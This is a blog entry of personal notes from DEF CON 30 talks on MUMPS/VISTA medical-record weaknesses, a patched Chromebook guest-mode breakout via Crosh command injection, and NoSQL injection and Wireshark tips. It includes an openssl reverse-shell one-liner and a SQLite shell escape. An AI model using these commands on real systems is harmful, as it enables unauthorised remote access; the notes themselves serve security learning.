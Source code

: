 ```yaml
---
title: DEF CON 30
date: 2022-08-13 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-08-13-def-con-30.html
author: 100007
---
```


DEF CON talks in the morning, and another workshop this afternoon.

- [DEF CON 30](https://defcon.org/html/defcon-30/dc-30-index.html)

# How to Get MUMPS Thirty Years Later

SIDE NOTE: Zach uses a text-based slide generation tool called Moebius.

MUMPS is a versatile language (and development environment) originally developed for the VA. I predates \*NIX and is incredibly versatile - it’s also used by other hospitals, police departments, banks, and even the ESA.

MUMPS has some interesting features: All keywords can be shortened to a single character. White space matters (except for newlines). Math is evaluated left-to-right (there’s no sense of order of operations `O_o`). Dates are comma-delineated strings that start in 1838 (and support up to the year 9999).

MUMPS can be treated as both a scripted and compiled language.

More than 50% of all electronic medical records pass through some sort of MUMPS application.

VISTA is a platform for handling electronic medical records that is written in MUMPS specifically for use by the Veterans’ Administration.

In hospitals, clients talk to VISTA using a network RPC. The most common client is CPRS (it’s written in a slightly more modern language, DELPHI `O_o`).

CPRS/VISTA are _extremely_ chatty on the network.

VISTA uses a roll-your-own encryption scheme from the 1990s. Encryption can be trivially broken. Packets can be replayed. And there are hard-coded creds (though Zach doesn’t think that these are exploitable). So, be sure to layer TLS onto any MUMPS implementations!

Zach’s had trouble getting the VA to talk to them, so disclosure’s still ongoing here.

VISTA is _really_ well-loved by the doctors who use it.

- [How to Get MUMPS Thirty Years later (or, Hacking the Government via FOIA’d Code)](https://cardboard-iguana.com/log/assets/how-to-get-mumps-thirty-years-later-or-hacking-the-government-via-foiad-code-zachary-minneker.pptx)
- [Moebius ANSI Art Editor](https://blocktronics.github.io/moebius/)

# Chromebook Breakout

This is the Lost Rabbit Labs people. I saw them at a DC 303 meet-up.

This vulnerability was actually patched two years ago by Google…

This is a breakout from the Chrome OS guest user via the the Crosh shell using command injection in the `set_*` commands.

The Pico Ducky is a Rubber Ducky work-alike that runs on a Raspberry Pi Pico. It’s much faster than Hak5’s tool.

Interesting redirect trick - use `1>&2` to redirect STDOUT to STDERR (the reverse of what is normally done) to bypass some output filtering.

You can pipe `sh` through `openssl` for a reverse shell! Something like: `mkfifo /tmp/irl; /bin/sh -i < /tmp/irl 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > tmp/irl; rm /tmp/irl`

In older versions of Chrome OS, the Crosh shell could actually be launched in Dev Mode (without switching the entire box to Dev Mode) using `crosh --dev` (via `set_apn` command injection).

SQLite shell escape: `.shell bash`

Oof… There were (are?) hard-coded SSH public keys on Chrome OS; the corresponding private key was (is?) available in the Chromium code repo.

Chrome OS has a restricted `finger` command called `pinky` that’s used internally.

If you can get to `dbus` on a Chromebook, you can access _some_ (but not all!) Dev Mode tools (like `ping`).

(I wasn’t able to catch the end of this presentation, however, as I needed to head out to my last workshop…)

- [Chromebook Breakout: Escaping Jail, With Your Friends, Using a Pico Ducky](https://cardboard-iguana.com/log/assets/chromebook-breakout-escaping-jail-with-your-friends-using-a-pico-ducky-jimi-allee.pdf)
- [Pico Ducky](https://github.com/dbisu/pico-ducky)

# Securing Web Apps

TIL: There is such a thing as NoSQLi, and it’s _way_ easier than SQLi - just drop objects containing search operators into the NoSQL queries instead of actual data!

You can search within packets in Wireshark using the filter `frame contains "$TEXT_TO_SEARCH"`.

If you can find an encryption key in a packet dump, you can try applying them to encrypted packets in Wireshark using “Preferences \> RSA Keys”.

Wireshark can easily extract files from HTTP conversations. To extract them from raw TCP streams, (1) locate the beginning of the stream, (2) right-click on the packet and select “Follow \> TCP Stream, (3) change “Show data as” to “Raw”, and (4) save it off using “Save As”.

- [Securing Web Apps](https://forum.defcon.org/node/241772)
- [How to pull off a successful NoSQL Injection attack](https://infosecwriteups.com/nosql-injection-8732c2140576)
